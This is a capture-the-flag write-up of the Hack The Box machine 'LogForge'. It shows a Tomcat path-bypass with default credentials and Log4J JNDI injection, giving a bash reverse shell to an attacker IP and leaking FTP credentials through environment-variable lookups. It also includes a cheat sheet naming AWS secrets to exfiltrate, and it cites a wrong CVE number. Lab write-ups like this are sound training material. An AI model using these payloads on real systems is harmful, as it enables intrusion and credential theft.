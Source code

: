 ```yaml
---
title: LogForge
author:
  name: Cotes Chung
  link: https://github.com/cotes2020
date: 2019-08-08 11:33:00 +0800
categories: [Blogging, Demo]
tags: [typography]
math: true
mermaid: true
image:
  src: /assets/images/9b50e63692fc35f864c8df9c19ef0e2f.png
  
  alt: image alternative text
---
```


# Enumeration
## NMAP
```
luka@kali:~/htb/logforge/nmap$ nmap -sC -sV -oA nmap 10.10.11.138
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-24 20:55 CET
Nmap scan report for 10.10.11.138
Host is up (0.033s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE    SERVICE    VERSION
21/tcp   filtered ftp
22/tcp   open     ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
80/tcp   open     http       Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Ultimate Hacking Championship
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp filtered http-proxy
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## WebPage on Port 80
![](/assets/images/2022-01-11-19-22-43.png)

Going to page that doesn't exist shows, that there is difference regarding which server is running on port 80 (Apache or Apache Tomcat), which makes us asume that we're dealing with reverse proxy.
![](/assets/images/2022-01-11-19-24-26.png)

# Exploitation
So from very basic enumeration let's start to exploitation.
First on the menu is breaking the parser logic. 
## Breaking parser logic on Apache / Tomcat
https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf

We'll use a neat trick to trick Reverse Proxy to not block us after opening `/manager/`. 
![](/assets/images/2022-01-11-19-25-22.png)
We'll be able to bypass that and still end on Tomcat because tomcat doesn't treat that ::; as URL.
`http://10.10.11.138/idontexist/..;/manager/` will open the Login prompt (Login with `tomcat/tomcat`).
We should be able to login to Tomcat manager.
![](/assets/images/2022-01-11-19-25-42.png)
## Log4J Exploit / CVE-2021/44882
There are a lot of good explanations on Log4J, so i'll won't be diving into that. I've done the PoC before which used simple JNDI payload, which loaded malicious class after LDAP Callback and gave reverse shell. 

Exploiting Log4J on this box is a little more tricky.
First of all, we need to get an execution, so let's try injecting simple payload into Tomcat.
`${jndi:ldap://10.10.14.18:1389/Ajej.class}`
![](/assets/images/2022-01-11-19-25-57.png)
I ran `tcpdump` but nc listening on port 1389 would also do the job. 
There's callback so Application is vulnerable.
![](/assets/images/2022-01-11-19-26-11.png)
Like suggested in the ippsec's video https://www.youtube.com/watch?v=XG14EstTgQ4, approach mention in the post https://twitter.com/marcioalm/status/1470361495405875200 will be used. In addition to that post, we'll not be using the regular Ysoserial, but Ysoserial-modified: https://github.com/pimps/ysoserial-modified
JNDI-Exploit-kit: https://github.com/pimps/JNDI-Exploit-Kit.git

### Creating payload
```
java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.18/4444 0>&1' > /home/luka/htb/logforge/rev
```

### Starting JNDI-Exploit-Kit
```
java -jar target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.18:1389 -P /home/luka/htb/logforge/rev
```
![](/assets/images/2022-01-11-19-26-30.png)
### Reverse Shell
Put `${jndi:ldap://10.10.14.18:1389/rev}` again in the manager's field which gives us RCE and start it. Reverse shell should pop:
![](/assets/images/2022-01-11-19-26-44.png)
If the payload wouldn't work, we could use also one of the following:
```
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://10.10.14.18:1099/s5ie1k
ldap://10.10.14.18:1389/s5ie1k
Target environment(Build in JDK 1.5 whose trustURLCodebase is true):
rmi://10.10.14.18:1099/kfaicp
ldap://10.10.14.18:1389/kfaicp
Target environment(Build in JDK - (BYPASS WITH GROOVY by @orangetw) whose trustURLCodebase is false and have Tomcat 8+ and Groovy in classpath):
rmi://10.10.14.18:1099/koifwi
Target environment(Build in JDK 1.6 whose trustURLCodebase is true):
rmi://10.10.14.18:1099/2blnim
ldap://10.10.14.18:1389/2blnim
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://10.10.14.18:1099/e6xn7g
ldap://10.10.14.18:1389/e6xn7g
Target environment(Build in JDK - (BYPASS WITH EL by @welk1n) whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://10.10.14.18:1099/urpkwl
```

# Privilege Escalation
## FTP Server (Java) running as root
```
root         769       1  0 Dec24 ?        00:00:00 /usr/sbin/cron -f
root         937     769  0 Dec24 ?        00:00:00  \_ /usr/sbin/CRON -f
root         943     937  0 Dec24 ?        00:00:00      \_ /bin/sh -c /root/run.sh
root         944     943  0 Dec24 ?        00:00:00          \_ /bin/bash /root/run.sh
root         945     944  0 Dec24 ?        00:00:59              \_ java -jar /root/ftpServer-1.0-SNAPSHOT-all.jar
```
![](/assets/images/2022-01-11-19-27-09.png)
Unintended way to solve the box is to log into FTP on localhost with any user, and simple use dir and cat to read the flag etc.

Intended way (according to IppSec's video) is to exploit the vulnerable Log4J FTP Application. We can exploit Log4J simply by putting same string as we did above into the username, and we'd get a callback from an application. Because this app does not have any gadgets, we need to dig deeper into the application.
So download the ftp server application to Kali and open it with `jd-gui`.

You should see Log4J decompiled classes right away.
In `Worker.class` we can see user and the pass which will be passed from environment variable.
```java
  private String validUser = System.getenv("ftp_user");
  
  private String validPassword = System.getenv("ftp_password");
```

Both can be read using JNDI, so let's try that.
`${jndi:ldap://10.10.14.18:1389/${env:ftp_user}/${env:ftp_password}}`

Run `tcpdump -i tun0 -A port 1389`
Somewhere in the middle we should find, leaked username and password:
![](/assets/images/2022-01-11-19-28-27.png)
FTP Login should work. We can either grab a flag only or download `.ssh/id_rsa`

### Exflitration of other Data
Exfiltration of other data is also possible. This is short list from here: https://therceman.medium.com/log4j-vulnerability-cheatsheet-66b7aeabc607
```
${hostName}  
${sys:user.name}  
${sys:user.home}  
${sys:user.dir}  
${sys:java.home}  
${sys:java.vendor}  
${sys:java.version}  
${sys:java.vendor.url}  
${sys:java.vm.version}  
${sys:java.vm.vendor}  
${sys:java.vm.name}  
${sys:os.name}  
${sys:os.arch}  
${sys:os.version}  
${env:JAVA_VERSION}  
${env:AWS_SECRET_ACCESS_KEY}  
${env:AWS_SESSION_TOKEN}  
${env:AWS_SHARED_CREDENTIALS_FILE}  
${env:AWS_WEB_IDENTITY_TOKEN_FILE}  
${env:AWS_PROFILE}  
${env:AWS_CONFIG_FILE}  
${env:AWS_ACCESS_KEY_ID}
```

For example:
`${jndi:ldap://10.10.14.18:1389/${hostName}/......./${sys:user.name} /......./${sys:user.dir}/......./${sys:os.version}}`
![](/assets/images/2022-01-11-19-28-42.png)

